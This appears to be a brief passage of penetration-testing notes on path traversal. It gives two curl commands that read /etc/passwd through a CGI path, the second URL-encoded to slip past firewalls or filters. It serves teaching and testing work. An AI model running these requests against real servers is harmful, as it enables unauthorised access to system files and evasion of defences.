Sometimes by firewalls or other stuff we can't execute the query just like this:

```
curl http://0.0.0.0/cgi-bin/../../../../etc/passwd
```

So we URL Encode in order to avoid these filters:

```
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
